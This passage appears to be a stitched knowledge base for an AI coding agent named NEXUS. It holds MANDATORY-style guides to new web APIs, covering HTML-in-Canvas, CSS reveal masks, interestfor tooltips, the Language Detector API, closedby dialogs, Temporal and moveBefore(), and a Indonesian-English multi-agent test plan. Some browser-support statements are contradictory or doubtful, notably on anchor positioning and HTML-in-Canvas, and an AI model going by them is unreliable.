    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

      // Recalculate the DPR compensation mapping
      const dprX = canvas.width / canvas.clientWidth;
      const dprY = canvas.height / canvas.clientHeight;
      const gridWidth = uiElement.offsetWidth * dprX;
      const gridHeight = uiElement.offsetHeight * dprY;

      const cssToUnitSpace = new DOMMatrix()
        .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight)
        .translate(-gridWidth / 2, -gridHeight / 2);

      const clipToCanvasViewport = new DOMMatrix()
        .translate(canvas.width / 2, canvas.height / 2)
        .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2);

      const screenSpaceTransform = clipToCanvasViewport
        .multiply(mvpDOM)
        .multiply(cssToUnitSpace);

      const computedTransform = canvas.getElementTransform(
        uiElement,
        screenSpaceTransform,
      );
      uiElement.style.transform = computedTransform.toString();
    }
  };
</script>
```

### WebGPU Canvas

```html
<canvas id="canvas" layoutsubtree style="width: 400px; height: 400px;">
  <div id="ui-element">
    <p>WebGPU UI Element</p>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const context = canvas.getContext("webgpu");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGPU...
  // const device = ...
  // const targetTexture = ...

  canvas.onpaint = () => {
    // 1. Copy HTML content to texture
    if (device.queue.copyElementImageToTexture) {
      device.queue.copyElementImageToTexture(uiElement, width, height, {
        texture: targetTexture,
      });
    }

    // 2. Sync DOM position (same matrix math as WebGL)
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

      // Recalculate the DPR compensation mapping
      const dprX = canvas.width / canvas.clientWidth;
      const dprY = canvas.height / canvas.clientHeight;
      const gridWidth = uiElement.offsetWidth * dprX;
      const gridHeight = uiElement.offsetHeight * dprY;

      const cssToUnitSpace = new DOMMatrix()
        .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight) // Retain Z scale
        .translate(-gridWidth / 2, -gridHeight / 2);

      const clipToCanvasViewport = new DOMMatrix()
        .translate(canvas.width / 2, canvas.height / 2)
        .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2); // Retain Z scale

      const screenSpaceTransform = clipToCanvasViewport
        .multiply(mvpDOM)
        .multiply(cssToUnitSpace);

      const computedTransform = canvas.getElementTransform(
        uiElement,
        screenSpaceTransform,
      );
      uiElement.style.transform = computedTransform.toString();
    }
  };
</script>
```

### Three.js

```js
// 1. Initialize Three.js camera, scene, renderer, mesh, interactions;

// 2. Ensure HTML-in-Canvas feature support
if (!('requestPaint' in HTMLCanvasElement.prototype)) {
  // Use a fallback strategy
}

// 3. Initialize the source HTML DOM element
const element = document.createElement('div');
element.innerHTML = '<h1>Hello World</h1>';

// 4. Create geometry and material
const geometry = new RoundedBoxGeometry( 100, 100, 100, 10, 10 );
const material = new THREE.MeshStandardMaterial( { roughness: 0, metalness: 0.5 } );

// 5. Pass the DOM element into THREE.HTMLTexture
material.map = new THREE.HTMLTexture(element);

mesh = new THREE.Mesh( geometry, material );
scene.add( mesh );

// 6. Render Loop
function animate() {
  renderer.render(scene, camera);
}
```

## Best Practices

- **MANDATORY**: Check browser support for the HTML-in-Canvas API before using it.
- **MANDATORY**: When using WebGL or WebGPU, always add the `layoutsubtree` attribute to the `<canvas>` element.
- **MANDATORY**: When using WebGL or WebGPU, use an `onpaint` event handler to render the HTML content to the canvas.
- **MANDATORY**: Use the `texElementImage2D` for WebGL, or `copyElementImageToTexture` for WebGPU methods to render the HTML content to the canvas.
- **MANDATORY**: When using WebGL or WebGPU, update the CSS transform of the HTML element to match the transform of the rendered content by setting the `style.transform` property of the HTML element.
- **MANDATORY**: Observe the screen size and update the canvas size to match device pixels, for example, by using `ResizeObserver`.
- **DO NOT** embed cross-origin content in a canvas, as it is not supported.
- **DO NOT** initialize `ResizeObserver` within the `onpaint` event handler, as it may lead to memory leaks.

### Fallback strategies

HTML in canvas is not natively supported by any major browser yet.

The HTML-in-Canvas API is not currently supported in all modern browsers, thus a fallback strategy is typically required.

However, given the improved performance benefits of this API, HTML-in-Canvas should be used if the browser supports it.

The fallback strategy depends on the use case. For example, for an interactive HTML content in canvas, if HTML-in-Canvas is not supported, place the HTML content on top of the canvas using CSS.

### HTML-in-Canvas polyfill

Use the following polyfill script to mimic the HTML-in-Canvas API in browsers that do not support it.

1. Install or embed the library:

```
# Install
npm install three-html-render
```

```
# Embed
<script src="https://cdn.jsdelivr.net/npm/three-html-render/dist/polyfill.js"></script>
```

2. Run the `installHtmlInCanvasPolyfill()` method to translate HTML-in-Canvas.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_INTERACTIVE-CONTENT-REVEAL.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Add performant, interactive reveal effects to your site with CSS masks and registered custom properties. By using a radial gradient as a mask and registering its stop values, we can smoothly transition the entry and exit, while following a user's pointer with minimal JavaScript. 

## Implementation

### 1. Register Custom Properties
To enable smooth interpolation of gradient stop values, you must register the variables using `@property`. This informs the browser's engine about the data type, allowing it to transition between values during updates.

```css
/* Register the spotlight inner and outer sizes to enable interpolation */
 @property --inner-size{
  syntax: "<length-percentage>";
  inherits: true;
  initial-value: 0px;
}
@property --outer-size{
  syntax: "<length-percentage>";
  inherits: true;
  initial-value: 0px;
}
```

The custom properties tracking the pointer position do not need to be transitioned, so it is not required to register them.

### 2. Define the Masking Layer
Apply the `mask-image` to the element you want to reveal. Use a `radial-gradient` that references the registered properties.

```css
.reveal-layer {
  /* Only transition the size properties, NOT the position variables */
  transition: --inner-size 0.2s ease-in-out, --outer-size 0.2s ease-in-out;  

  /* The spotlight is defined by the transparent center of the mask */
  mask-image: radial-gradient(
    circle at var(--mouse-x) var(--mouse-y),
    black var(--inner-size, 0%),
    transparent var(--outer-size, 0%)
  );

  /* Ensure the mask doesn't repeat if the element is large */
  mask-repeat: no-repeat;

  /* Make the mask layer non-interactive */
  pointer-events: none;
}

/* Update the gradients stops on interaction */
.reveal-layer:hover {
  --inner-size: 100px;
  --outer-size: 120px;
}  
```

### 3. Update Coordinates with JavaScript
Track the pointer position and update the CSS variables. Because the properties are registered and have a `transition` defined, the spotlight will move smoothly even if the pointer events are infrequent.

```javascript
const container = document.querySelector('.container');
// Store the container's bounding rect
let rect = container.getBoundingClientRect();
// Update the rect when the container is resized
const resizeObserver = new ResizeObserver(()=>{
  rect = container.getBoundingClientRect();
})
resizeObserver.observe(container);

container.addEventListener('pointermove', (e) => {
  // Calculate position as a percentage of the container.
  const x = ((e.clientX - rect.left) / rect.width) * 100;
  const y = ((e.clientY - rect.top) / rect.height) * 100;

  // Update the registered properties
  container.style.setProperty('--mouse-x', `${x}%`);
  container.style.setProperty('--mouse-y', `${y}%`);
});
```

### 4. Accessibility and Interaction
**MANDATORY Accessibility Guarantee:** This pattern relies on pointer interactions to reveal a visual spotlight. You MUST guarantee that all underlying content remains fully visible, legible, and independently keyboard-reachable by default in the underlying layout, using the spotlight layer purely as a non-essential visual enhancement for pointer users. Never use this effect to obscure or gate essential content from keyboard-only or assistive technology users.

* **Pointer Events:** Set `pointer-events: none` on the mask overlay layer to allow standard click and touch interactions to pass through to controls underneath.
* **Reduced Motion Override:** Disable smooth transition interpolation for users requesting reduced motion.

```css
/* MANDATORY Copy-Paste Safety: Disable transition scaling for motion-sensitive users */
@media (prefers-reduced-motion: reduce) {
  .reveal-layer {
    transition: none !important;
  }
}
```

## Fallback strategies

Baseline status for Registered custom properties: Newly available. It's been Baseline since 2024-07-09.
Supported by: Chrome 85 (Aug 2020), Edge 85 (Aug 2020), Firefox 128 (Jul 2024), and Safari 16.4 (Mar 2023).

### Non-registered Property Fallback
Browsers that support `mask-image` but not `@property` will still show the spotlight, but the movement will jump between on and off states because they cannot interpolate values inside a `radial-gradient`. Provide fallback values when using `var()`.

```css
.reveal-layer {
  mask-image: radial-gradient(
    circle at var(--mouse-x) var(--mouse-y),
    /* Use fallback values when using the `var()` function for browsers that don't get an initial value from the @property registration. */
    black var(--inner-size, 0%),
    transparent var(--outer-size, 0%)
  );
}
```

Baseline status for Masks: Newly available. It's been Baseline since 2023-12-07.
Supported by: Chrome 120 (Dec 2023), Edge 120 (Dec 2023), Firefox 53 (Apr 2017), and Safari 15.4 (Mar 2022).

### Basic Mask Support

For browsers that do not support CSS masking at all:
1. **Prefixed property:** Use the `-webkit-mask-image` prefixed property for broader browser support.
2. **Progressive Enhancement:** Design the base state of the UI to be fully functional and legible without the reveal effect. This is useful when the effect is only adds visual flair, and not a requirement for reading content.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_INTEREST-TRIGGERED-TOOLTIPS.MD

# Show a tooltip when hovering
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Users expect to see additional related information without completely changing their context. Showing a tooltip when a user is interested in more information can be useful to provide definitions for a term, clarifying the action an icon-only button will take, or provide additional form field guidance.

## Creating the tooltip

You can create a popover with the required behavior by adding the `popover="hint"` attribute to a `<div>` or other semantically appropriate element. When the user opens the tooltip, this hides other `popover="hint"` tooltips, but doesn't hide `auto` or `manual` tooltips. It also handles dismissing nested tooltips.

It also provides light dismiss behavior, so when a user clicks or otherwise focuses outside of the popover, the popover is dismissed.

The tooltip element must have an `id` attribute with a unique value:

```html
<!-- MANDATORY: The tooltip container `<div>` must have a `popover` attribute.
     the value of `"hint"` ensures it can be "light dismissed". -->
<div popover="hint" id="tooltip">Tooltip content</div>
```

A user expresses interest in the additional information by hovering or focusing on an `<a>` or `<button>` element. The element must have an `interestfor` attribute that matches the `id` attribute of the tooltip.

```html
<!-- The `interestfor` attribute can be applied to a `<button>` element: -->
<button interestfor="tooltip">Tooltip trigger</button>

<!-- The `interestfor` attribute can also be applied to an `<a>` element: -->
<a interestfor="tooltip" href="">Tooltip trigger</a>
```

The trigger must have a visual indicator to indicate that there is additional information available by interacting with the trigger.

### Accessibility built in to `interestfor`

`interestfor` handles the assistive-technology wiring for you, so you generally do not need to add ARIA attributes manually:

- A target with `popover="hint"` gains an implicit minimum role of `tooltip`. **DO NOT** set `role="tooltip"` yourself.
- The browser implicitly associates the source element with the target via `aria-describedby` when the target is plaintext, or via `aria-details` when the target contains interactive content. **DO NOT** add `aria-describedby` or `aria-details` to the trigger.
- Because the association switches to `aria-details` when needed, the target IS allowed to contain interactive content (e.g. a link inside an "interest card").

### Accessibility Constraints (WCAG 1.4.13)

Even with `interestfor` handling the semantics above, your implementation MUST still satisfy WCAG 1.4.13 (Content on Hover or Focus):
- **Dismissible:** Users must be able to dismiss the tooltip without moving pointer hover or keyboard focus (e.g., by pressing the `Escape` key). The native `popover` attribute manages this binding automatically.
- **Hoverable:** The pointer must be able to move over the tooltip content itself without the tooltip disappearing. This allows users with magnification tools to read the tooltip text safely.
- **Persistent:** The tooltip must remain visible until the hover or focus trigger is removed, the user explicitly dismisses it, or its content is no longer valid.

### Positioning the tooltip

The tooltip can be positioned using anchor positioning. When the tooltip is opened using `interestfor`, the trigger becomes an implicit anchor for the tooltip, meaning you don't have to add `anchor-name` or `position-anchor` CSS properties. However, to support browsers without anchor positioning you must use the anchor positioning polyfill, which has several limitations for popovers. **MANDATORY:** Implicit anchors are NOT supported by the polyfill, so YOU MUST explicitly set an `anchor-name` on the trigger and `position-anchor` on the popover.


```css
/* MANDATORY: use explicit anchor names for compatibility with the polyfill */
button[interestfor="tooltip-dom"] {
  anchor-name: --tooltip-dom;
}
#tooltip-dom {
  position-anchor: --tooltip-dom;
}
```

Also, the polyfill does not support `position-area` on popovers, so **MANDATORY:** DO position using `anchor()` functions, and **YOU MUST** include a `position-try` fallback (e.g. `flip-block` or `flip-inline`).

```css
[popover]{
  /* MANDATORY: use anchor functions and a position-try fallback for the polyfill */
  top: anchor(bottom);
  left: anchor(center);
  position-try: flip-block;
  margin: unset;
}
```


### Fallback strategies

Interest invokers has limited availability.
Supported by: Chrome 142 (Oct 2025) and Edge 142 (Oct 2025).
Unsupported in: Firefox and Safari.

Interest invokers must be conditionally polyfilled using the `interestfor` polyfill package from NPM. Do prefer bundling the polyfill over using the CDN.

```html
<script type="module">
  if(!HTMLButtonElement.prototype.hasOwnProperty("interestForElement")){
    // CDN link only used for example, prefer bundling.
    await import("https://unpkg.com/interestfor@latest");
  }
</script>
```

Baseline status for Popover: Newly available. It's been Baseline since 2025-01-27.
Supported by: Chrome 116 (Aug 2023), Edge 116 (Aug 2023), Firefox 125 (Apr 2024), Safari 17 (Sep 2023), and Safari iOS 18.3 (Jan 2025).
popover="hint" has limited availability.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), and Firefox 149 (Mar 2026).
Unsupported in: Safari.

Popover and popover hint must conditionally be polyfilled with the `@oddbird/popover-polyfill` polyfill. The hint behavior will not be polyfilled in browsers that support `popover` but not `popover="hint"`. For those browsers, a tooltip opened via focus may stay open when a second tooltip opened via hover.

```html
<script type="module">
  if(!HTMLElement.prototype.hasOwnProperty("popover")){
    await import("https://unpkg.com/@oddbird/popover-polyfill@latest");
  }
</script>
```

Anchor positioning is not natively supported by any major browser yet.

**MANDATORY:** To support browsers without anchor positioning, you MUST use the `@oddbird/css-anchor-positioning` polyfill. It does not support implicit anchors, so you MUST add anchor names to the trigger. Additionally, `position-area` is not supported on popovers by the polyfill, so you MUST use `anchor()` on the desired insets. 

```html
<!-- MANDATORY: Conditionally install the anchor positioning polyfill -->
<script type="module">
  if (!("anchorName" in document.documentElement.style)) {
    await import("https://unpkg.com/@oddbird/css-anchor-positioning");
  }
</script>
```

```css
button[interestfor="tooltip-attrs"] {
  /* MANDATORY: Each trigger and popover pair must have a unique anchor name, referenced by `anchor-name` on the trigger and `position-anchor` on the popover. */
  anchor-name: --tooltip-attrs;
}
#tooltip-attrs {
  position-anchor: --tooltip-attrs;
  /* If using the anchor positioning polyfill with a popover, DO use `anchor()` functions, and not `position-area. */
  top: anchor(bottom);
  left: anchor(right);
  margin: unset;
}
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_LANGUAGE-DETECTION.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

The **Language Detector API** is a client-side web API designed to identify the language of a given text string. By performing detection locally in the browser, it enhances user privacy and reduces the need for heavy external libraries or costly server-side calls.

## Key Use Cases

- **Translation Prep:** Identifying the source language before sending text to a translator.
- **Safety & Filtering:** Loading specific models for tasks like toxicity detection.
- **Accessibility:** Labeling content with the correct `lang` attribute for screen readers.
- **UI Localization:** Adjusting application interfaces based on the user's input language.

## Hardware & System Requirements

- **OS:** Windows 10/11, macOS 13+, Linux, or Chromebook Plus.
- **Storage:** 22 GB free space (model is removed if space drops below 10 GB).
- **RAM/CPU:** 16 GB RAM and 4+ CPU cores.
- **VRAM:** 4 GB+ if using a GPU.

## Implementation Guide

### 1. Model Management & User Activation

Check model availability before attempting to instantiate the detector or trigger download.

**MANDATORY:** Instantiating the language detector or triggering a model download with `LanguageDetector.create()` **MUST** be initiated by a user gesture (such as a button click) to prevent a `NotAllowedError` when the model is in a `downloadable` or `downloading` state.

```javascript
// Check if the model is available or downloadable
const availability = await LanguageDetector.availability();

if (availability !== 'unavailable') {
  button.addEventListener('click', async () => {
    const detector = await LanguageDetector.create({
      monitor(m) {
        m.addEventListener('downloadprogress', (e) => {
          console.log(`Downloaded ${e.loaded * 100}%`);
        });
      },
    });
  });
}
```

### 2. Running Detection

The API returns a ranked list of potential languages with a confidence score between `0.0` and `1.0`.

```javascript
const someUserText = 'Hallo und herzlich willkommen!';
const results = await detector.detect(someUserText);

for (const result of results) {
  // result.detectedLanguage (e.g., 'de')
  // result.confidence (e.g., 0.999)
  console.log(result.detectedLanguage, result.confidence);
}
```

Avoid using the detector on very short phrases or single words, as accuracy drops significantly.

## Security and Environment

- **Iframes:** Cross-origin iframes require an explicit Permissions Policy to access the API.
  ```html
  <iframe
    src="https://cross-origin.example.com/"
    allow="language-detector"
  ></iframe>
  ```
- **Web Workers:** The API is **not** currently available in Web Workers due to Permission Policy complexities.
- **Privacy:** No data is sent to Google or third parties during the detection process.

## Fallback Strategy

Language detector has limited availability.
Supported by: Chrome 138 (Jun 2025).
Unsupported in: Edge, Firefox, and Safari.

Before use, check if the `LanguageDetector` object is available in the global scope:

```javascript
if ('LanguageDetector' in self) {
  // The Language Detector API is supported.
} else {
  // Execute fallback strategy
}
```

If the `LanguageDetector` API is unsupported or availability checks return `'unavailable'`, you must gracefully fall back:
1. **Remote API Fallback**: Redirect the detection request to a server endpoint or a cloud API (such as the Vertex AI Gemini API) to identify the language.
2. **Graceful Degradation**: Disable language detection elements/buttons and inform the user that client-side detection is currently unsupported in this browser, preventing any unhandled exceptions or crashes.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_LIGHT-DISMISS-A-DIALOG.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Modern modal dialogs often support "light-dismiss," allowing users to close a dialog by clicking or tapping the backdrop (the area outside the dialog). The `closedby` attribute provides a declarative way to enable this behavior without custom JavaScript.

## Implementation

To enable light-dismiss:

1. Add `closedby="any"` to the `<dialog>` element.
2. Open the dialog using `dialog.showModal()`.

### Attribute Values

- `any`: Enables light-dismiss (clicking the backdrop), "close requests" (the `Esc` key), and developer mechanisms (e.g., `dialog.close()`).
- `closerequest`: Enables "close requests" and developer mechanisms only. This is the default for modal dialogs.
- `none`: Only developer mechanisms can close the dialog.

### Styling the Backdrop
When a dialog is opened as a modal using `showModal()`, the browser generates a `::backdrop` pseudo-element. This backdrop covers the entire viewport and sits directly behind the dialog.

```css
/* Style the backdrop to indicate the dialog is modal */
dialog::backdrop {
  background-color: rgba(0, 0, 0, 0.5);
  backdrop-filter: blur(2px); /* Optional: add blur for modern browsers */
}
```

## Example

```html
<!-- MANDATORY: Use closedby="any" to enable light-dismiss behavior -->
<dialog id="myDialog" closedby="any" aria-labelledby="dialogTitle">
  <form method="dialog">
    <h2 id="dialogTitle">Feedback</h2>
    <p>Click outside this box or press Esc to dismiss.</p>
    <button type="submit">Close</button>
  </form>
</dialog>

<button onclick="document.getElementById('myDialog').showModal()">Open Dialog</button>
```

## Constraints & Accessibility

- **MANDATORY**: Use `closedby="any"` to enable light-dismiss declaratively.
- **MANDATORY**: Always open modal dialogs with `showModal()`. This ensures the dialog is in the top layer, focus is trapped, and the `Esc` key is handled.
- **DO**: Use `aria-labelledby` or `aria-label` to provide an accessible name for the dialog.
- **DO NOT**: Use `closedby` for non-modal dialogs (opened with `show()`), as they do not have a backdrop and won't trigger light-dismiss.
- **DO NOT**: Use the `click` event for critical logic that should happen *before* closing; instead, listen for the `close` or `cancel` events.

## Fallback strategies

<dialog closedby> has limited availability.
Supported by: Chrome 134 (Mar 2025), Edge 134 (Mar 2025), and Firefox 141 (Jul 2025).
Unsupported in: Safari.

**MANDATORY**: For browsers that do not yet support `closedby`, you **must** implement a fallback for light-dismiss by checking if a click occurred outside the dialog content's boundaries using the following script:

```javascript
const dialog = document.querySelector('dialog');

// Fallback for browsers without closedby support
if (!('closedBy' in HTMLDialogElement.prototype)) {
  dialog.addEventListener('click', (event) => {
    // 1. When clicking the backdrop, the event target is the dialog element itself.
    // Ignore clicks where the target is a child element inside the dialog.
    if (event.target !== dialog) return;

    // 2. Check if the click coordinates fall within the dialog's content box.
    // This distinguishes between a click on the backdrop vs a click on the dialog's background/padding.
    const rect = dialog.getBoundingClientRect();
    const isDialogContent = (
      rect.top <= event.clientY &&
      event.clientY <= rect.top + rect.height &&
      rect.left <= event.clientX &&
      event.clientX <= rect.left + rect.width
    );

    if (isDialogContent) return;

    // 3. Since the click was outside the content area (on the backdrop), manually close the dialog.
    dialog.close();
  });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_MODEL-PARTIAL-TIME-CONCEPTS.MD

# Modeling Partial Time Concepts with Temporal
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Modeling date concepts that lack a full calendar date—such as credit card expirations, annual renewals, or daily alarms—has historically been error-prone with the legacy `Date` object. Developers often resort to using arbitrary days (like the 1st of the month) or parsing strings, leading to "day leakage" or incorrect calculations due to leap years and varying month lengths.

The `Temporal` API provides dedicated types for these partial concepts: `Temporal.PlainYearMonth`, `Temporal.PlainMonthDay`, and `Temporal.PlainTime`. These types ensure precision and avoid leaking irrelevant date components.

## Implementation Examples

### Monthly Expirations (Credit Cards, Billing Cycles)
Use `Temporal.PlainYearMonth` to represent a year and a month.

```javascript
// Create a PlainYearMonth from values
// Use explicit calendar to avoid mismatch issues in polyfill environments
const expiry = Temporal.PlainYearMonth.from({ year: 2027, month: 12, calendar: 'iso8601' });

// Get the current year/month
const currentMonth = Temporal.Now.plainDateISO().toPlainYearMonth();

// Calculate duration until expiry
// largestUnit ensures the difference is expressed in years if applicable
const duration = currentMonth.until(expiry, { largestUnit: 'years' });

if (duration.sign < 0) {
  console.log("Expired");
} else if (duration.sign === 0) {
  console.log("Expires this month");
} else {
  console.log(`Expires in ${duration.years} years and ${duration.months} months`);
}
```

### Annual Recurring Dates (Birthdays, Renewals)
Use `Temporal.PlainMonthDay` to represent a month and a day without a year.

```javascript
// Create a PlainMonthDay for an annual event
// Include explicit calendar for polyfill safety
const birthday = Temporal.PlainMonthDay.from({ month: 10, day: 31, calendar: 'iso8601' });

// Check if it matches today's date components
const today = Temporal.Now.plainDateISO();
const isBirthdayToday = birthday.equals(today.toPlainMonthDay());

// To perform arithmetic (like days until next occurrence), convert to a full PlainDate
// by providing a specific year.
const birthdayThisYear = birthday.toPlainDate({ year: today.year });
```

### Wall-Clock Time (Alarms, Store Hours)
Use `Temporal.PlainTime` to represent a time of day without a date.

```javascript
// Create a PlainTime from a string
const alarmTime = Temporal.PlainTime.from("08:00:00");

// Add a duration to a PlainTime
const snoozedTime = alarmTime.add({ minutes: 10 });

console.log(`Original alarm: ${alarmTime.toString()}`);
console.log(`Snoozed alarm: ${snoozedTime.toString()}`);
```

## Strategic Implementation & Best Practices

- **DO** use `Temporal.PlainYearMonth` for values that only specify a month and year (like credit card expiry) to avoid leaking arbitrary day values.
- **DO** use `Temporal.PlainMonthDay` for annual events that ignore the year (like birthdays or anniversaries).
- **DO** use `Temporal.PlainTime` for daily schedules or alarms that are independent of the date.
- **DO NOT** try to perform arithmetic directly on `PlainMonthDay`. Convert it to a `PlainDate` first by providing a year, as the length of months varies by year.
- **DO** use explicit calendar properties (like `calendar: 'iso8601'`) when creating instances from objects to ensure safety across polyfill implementations.

## Fallback Strategy

### Fallbacks & browser support for Temporal

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
Unsupported in: Safari.

For browsers that do not yet support the native `Temporal` API, use feature detection and a polyfill. The standard reference polyfill is `@js-temporal/polyfill`.

Note that the polyfill does not automatically assign the `Temporal` object to the global scope to avoid conflicts. You must manually assign it if your code relies on the global `Temporal` object.

```javascript
// Check if Temporal is supported natively
(async () => {
  if (typeof Temporal === 'undefined') {
    // Load the polyfill conditionally
    const module = await import("https://esm.sh/@js-temporal/polyfill");
    globalThis.Temporal = module.Temporal;
    // Extend Date.prototype if needed
    Date.prototype.toTemporalInstant = module.toTemporalInstant;
    initializeApp();
  }
})();
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_MOVE-DOM-ELEMENT-WITHOUT-LOSING-STATE.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

When reparenting DOM elements using traditional methods like `appendChild()` or `insertBefore()`, the browser implicitly removes the element from the DOM and then inserts it into its new location. This "remove and insert" operation resets many internal states, causing `<iframe>` elements to reload, CSS animations to restart, and input fields to lose focus.

To move an element while preserving its state, use the `moveBefore()` API. This method performs an atomic move, completely bypassing the removal and insertion steps.

### Moving an element with state

Use `moveBefore()` exactly as you would use `insertBefore()`. It requires two arguments: the node to move, and a reference node to insert before (or `null` to append to the end of the new parent).

```javascript
const newParent = document.getElementById('new-parent');
const elementWithState = document.getElementById('iframe-or-focused-input');

// MANDATORY: Use moveBefore to preserve state. 
// Passing null as the second argument appends the element to the end of newParent.
newParent.moveBefore(elementWithState, null);
```

### Moving custom elements (Web Components)

If you are moving custom elements using `moveBefore()`, their `connectedCallback` and `disconnectedCallback` lifecycle methods will **not** be fired.

If your custom element needs to perform specific logic when moved, implement the `connectedMoveCallback()` method inside the custom element definition.

```javascript
class MyCustomElement extends HTMLElement {
  connectedCallback() {
    // Runs on initial insertion.
  }
  
  connectedMoveCallback() {
    // Runs when the element is moved via moveBefore().
    // Use this to update state that depends on the new DOM location.
  }
}
```

### Fallback strategies

moveBefore() has limited availability.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), and Firefox 144 (Oct 2025).
Unsupported in: Safari.

Since `moveBefore()` is a progressive enhancement, you MUST use feature detection before calling it, falling back to traditional `insertBefore()` or `appendChild()` operations for older browsers. 

```javascript
const targetParent = document.getElementById('target-container');
const nodeToMove = document.getElementById('moving-element');

// Check if moveBefore is supported on the Element prototype
if ('moveBefore' in Element.prototype) {
  targetParent.moveBefore(nodeToMove, null);
} else {
  // Fallback: traditional move. 
  // Note: This WILL reset <iframe>, animation, and focus state in unsupported browsers.
  targetParent.insertBefore(nodeToMove, null);
}
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_NEXUS MULTI AGENT  TEST.MD

# NEXUS — Multi-Agent Test Suite (TALL Stack)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Goal: Validate True Agent Behavior (Not Prompt Replay)

---

# 1. Test Philosophy

## Anti-Pattern (yang ingin dihindari)

```text
Input → Output → selesai
```

## Target NEXUS

```text
Observe → Reason → Decide → Act → Verify → Iterate
```

---

# 2. Test Categories Overview

| Category    | Purpose                                |
| ----------- | -------------------------------------- |
| Functional  | memastikan fitur bekerja               |
| Behavioral  | memastikan agent tidak sekadar replay  |
| Adaptive    | memastikan agent bisa berubah strategi |
| Failure     | memastikan sistem tahan error          |
| Memory      | memastikan sistem belajar & konsisten  |
| Multi-Agent | memastikan koordinasi antar agent      |

---

# 3. Functional Tests (TALL Stack)

---

## 3.1 Laravel Backend

### Test: API Integrity

- Agent membaca route Laravel
- generate request
- validasi response

### Expected

```text
status code valid
response schema sesuai
no crash
```

---

## 3.2 Livewire Components

### Test: Reactive State

- trigger state change
- observe DOM update

### Expected

```text
state berubah
UI update tanpa reload
```

---

## 3.3 Alpine.js Interaction

### Test: Frontend Behavior

- simulate click
- toggle state
- evaluate DOM

---

## 3.4 Tailwind UI Consistency

### Test: UI Validation

- scan class usage
- detect broken layout
- check responsiveness (basic)

---

# 4. Behavioral Tests (CRITICAL)

---

## 4.1 Non-Repetition Test

### Scenario

- jalankan task sama 3x
- ubah kondisi sedikit

### Expected

```text
agent tidak copy output sebelumnya
agent adapt terhadap perubahan
```

---

## 4.2 Decision Variation Test

### Scenario

- berikan 2 solusi valid

### Expected

```text
agent bisa memilih strategi berbeda
bukan selalu pattern sama
```

---

# 5. Adaptive Tests

---

## 5.1 Strategy Shift Test

### Scenario

- solusi awal gagal
- agent harus retry

### Expected

```text
agent mencoba pendekatan baru
bukan mengulang solusi sama
```

---

## 5.2 Context Change Test

### Scenario

- ubah config environment

### Expected

```text
agent menyesuaikan behavior
```

---

# 6. Failure Handling Tests

---

## 6.1 Broken Route Test

- inject invalid route

### Expected

```text
agent detect error
agent classify error
agent trigger fallback
```

---

## 6.2 Livewire Crash Test

- simulate component failure

### Expected

```text
agent isolate issue
tidak crash seluruh system
```

---

## 6.3 API Timeout Test

### Expected

```text
retry logic jalan
timeout handled
```

---

# 7. Memory Tests

---

## 7.1 Knowledge Consistency

### Scenario

- simpan hasil analisis
- gunakan ulang

### Expected

```text
tidak terjadi konflik data
```

---

## 7.2 Learning Retention

### Scenario

- agent gagal → belajar → ulang

### Expected

```text
hasil kedua lebih baik
```

---

# 8. Multi-Agent Coordination Tests

---

## 8.1 Pipeline Execution

### Scenario

```text
Crawler → Memory → Analyzer → Fixer
```

### Expected

```text
data flow benar
tidak lompat step
```

---

## 8.2 Parallel Execution

### Scenario

- jalankan 3 agent bersamaan

### Expected

```text
tidak terjadi race condition
tidak corrupt memory
```

---

## 8.3 Conflict Resolution

### Scenario

- 2 agent modify resource sama

### Expected

```text
conflict detection jalan
resolution strategy dipilih
```

---

# 9. Autonomy Tests

---

## 9.1 Self-Trigger Test

### Scenario

- system detect anomaly

### Expected

```text
agent jalan tanpa human trigger
```

---

## 9.2 Goal Execution Test

### Scenario

- goal: "optimize performance"

### Expected

```text
agent breakdown task
execute step-by-step
```

---

# 10. TALL Stack Specific Deep Tests

---

## 10.1 Livewire + Backend Sync

### Scenario

- form submit → DB update → UI reflect

### Expected

```text
no desync
```

---

## 10.2 Alpine + Livewire Interaction

### Scenario

- Alpine state → Livewire action

### Expected

```text
event sync benar
```

---

## 10.3 Tailwind Responsiveness

### Scenario

- simulate mobile viewport

### Expected

```text
layout tidak rusak
```

---

# 11. Metrics (WAJIB)

```text
task_success_rate
retry_count
adaptation_rate
error_recovery_rate
decision_variance
memory_conflict_rate
```

---

# 12. Advanced Test (Very Important)

---

## 12.1 Anti-Prompt-Replay Test

### Scenario

- jalankan task tanpa prompt sama

### Expected

```text
agent tetap bisa solve
berdasarkan reasoning
```

---

## 12.2 Emergent Behavior Test

### Scenario

- task kompleks (multi-step)

### Expected

```text
agent membuat sub-task sendiri
```

---

# 13. Final Validation

